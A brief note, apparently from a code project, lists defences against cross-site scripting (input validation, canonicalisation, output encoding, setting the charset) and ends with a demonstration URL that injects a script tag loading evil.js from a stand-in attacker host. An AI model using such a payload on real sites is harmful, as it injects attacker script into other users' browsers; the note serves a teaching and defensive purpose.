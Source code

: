 To avoiding XSS attacks:

* Validate input (For instance using RE)
* Canonicalize
* Encode output
* Assign character set -> Content-type: text/html; charset="utf-8"

Deploy some malicious code at yourserver.com/js/evil.js and
visit index.hmtl?%3Cscript src=asite.com/js/evil.js%3E%3Cscript%3E
